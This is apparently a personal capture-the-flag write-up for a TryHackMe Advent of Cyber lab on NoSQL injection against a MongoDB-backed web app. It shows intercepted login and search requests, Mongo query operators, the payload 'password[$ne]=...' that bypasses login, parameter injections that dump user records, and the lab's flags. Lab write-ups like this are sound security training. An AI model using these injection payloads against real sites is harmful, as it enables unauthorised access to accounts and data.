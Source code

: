 ```yaml
---
title: Advent Of Cyber 3 - Day 7
date: "2021-12-07"
description: SQLi with NoSQL
tldr: SQLi
tags: [SQLi,tryhackme,adventofcyber3,web exploitation]

---
```


Interact with MongoDB after ssh'ing to the box 

```
> use flagdb
> show collections
> db.flagColl.find()
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{8814a5e6662a9763f7df23ee59d944f9}" }
```

Interact with webpage on: `http://10.10.137.111/login`

try to catch a login event with burp-suite 

```
POST /login HTTP/1.1
Host: 10.10.137.111
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.137.111
Connection: close
Referer: http://10.10.137.111/login

Cookie: connect.sid=s%3ATiJbg_zkCKqm-CXR13un1POmfLQWnW3c.6hOaaBdHJq3%2FxJxxprL5uXHFmrqC7%2FJpprEowkA2PB0

Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

Because the page says that it's a mongo-db , we can try to inject some commands in the input fields.
`username=admin&password=admin`

![[thm-aoc3-day7-1.png]]

commonly used NoSQL syntax when injecting: 
```
$eq - matches records that equal to a certain value
$ne - matches records that are not equal to a certain value
$gt - matches records that are greater than a certain value.
$where - matches records based on Javascript condition
$exists - matches records that have a certain field
$regex - matches records that satisfy certain regular expressions.
```

modify request to: `username=admin&password[$ne]=nisse` to make the password evaluation return true, and that way making the whole statement true.

the page then redirects to `http://10-10-137-111.p.thmlabs.com/dashboard`

with a link to the flag: `Flag: THM{b6b304f5d5834a4d089b570840b467a8}`

use the search page: `http://10-10-137-111.p.thmlabs.com/search` to list all users with role 'guest'.

catch the request with burp, and send to repeater.

```
GET /search?username=db.find(guest&role=user HTTP/1.1
Host: 10-10-137-111.p.thmlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close

Referer: http://10-10-137-111.p.thmlabs.com/search

Cookie: connect.sid=s%3AgGcqHIpnAhj3DaRDXMGrd78Bizik7Kwx.56QQxY0BaC7cpqYEOSFdjk7C27tWLGOqmCweYedHlTQ

Upgrade-Insecure-Requests: 1
```

modify the GET parameter and play around: 
`GET /search?username=db.find(guest&role=user HTTP/1.1`

the address-bar can also be used: 
`10-10-137-111.p.thmlabs.com/search?username[$ne]grinch&role=guest`

```
Username details
ID:61749a80b534d3a130391b92:guest:guest
Username details
ID:61850f642f70bd35768c82f1:test:guest
Username details
ID:61850fb42f70bd35768c82f2:THM{2ec099f2d602cc4968c5267970be1326}:guest
```

and another flag is found: `THM{2ec099f2d602cc4968c5267970be1326}`

retrieve the mcskidy record from the gift-search page.
`http://10-10-137-111.p.thmlabs.com/search?username[$ne]mcskidy&role=admin`

```
Username details
ID:61733f3a72e3abc63d253929:admin:admin
Username details
ID:61749a80b534d3a130391b91:tryhackme:admin
Username details
ID:6184f516ef6da50433f100f4:mcskidy:admin
```

in burp, change the parameter to: 
`GET /search?username[$ne]mcskidy&role=admin HTTP/1.1` 
and get the same result/response as previously when tampering with the address bar.


EOF 